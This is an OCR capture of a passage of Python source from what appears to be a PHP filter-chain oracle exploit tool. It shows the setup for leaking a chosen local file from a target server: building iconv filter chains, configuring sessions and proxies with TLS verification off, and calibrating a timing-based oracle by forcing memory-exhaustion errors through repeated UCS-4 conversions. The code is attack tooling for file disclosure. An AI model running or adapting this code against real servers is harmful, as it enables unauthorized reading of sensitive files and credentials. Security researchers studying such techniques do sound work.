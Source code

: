 ```python
        print("[*] The following local file is leaked : {}".format(self.file_to_leak))
        print("[*] Running {} requests".format(self.verb.name))
        if data != "{}":
            print("[*] Additionnal data used : {}".format(data))
        if headers != "{}":
            print("[*] Additionnal headers used : {}".format(headers))
        if in_chain != "":
            print("[*] The following chain will be in each request : {}".format(in_chain))
            in_chain = "|convert.iconv.{}".format(in_chain)
        if match:
            print("[*] The following pattern will be matched for the oracle : {}".format(match))
        self.in_chain = in_chain
        self.data = json.loads(data)
        self.headers = json.loads(headers)
        self.delay = float(delay)
        if proxy:
            self.proxies = {
                'http': f'{proxy}',
                'https': f'{proxy}',
            }
        else:
            self.proxies = None
        self.instantiate_session()
        if time_based_attack:
            self.time_based_attack = self.error_handling_duration()
            print("[+] Error handling duration : {}".format(self.time_based_attack))
        else:
            self.time_based_attack = False
 
    """
    Instantiates a requests session for optimization
    """
 
    def instantiate_session(self):
        self.session = requests.Session()
        self.session.headers.update(self.headers)
        self.session.proxies = self.proxies
        self.session.verify = False
 
    def join(self, *x):
        return '|'.join(x)
 
    """
    Used to see how much time a 500 error takes to calibrate the timing attack
    """
 
    def error_handling_duration(self):
        chain = "convert.base64-encode"
        requ = self.req_with_response(chain)
        self.normal_response_time = requ.elapsed.total_seconds()
        self.blow_up_utf32 = 'convert.iconv.L1.UCS-4'
        self.blow_up_inf = self.join(*[self.blow_up_utf32] * 15)
        chain_triggering_error = f"convert.base64-encode|{self.blow_up_inf}"
        requ = self.req_with_response(chain_triggering_error)
        return requ.elapsed.total_seconds() - self.normal_response_time
 
    """
    Used to parse the option parameter sent by the user
    """
 
    def parse_parameter(self, filter_chain):
        data = {}
        if '[' and ']' in self.parameter:  # Parse array elements
```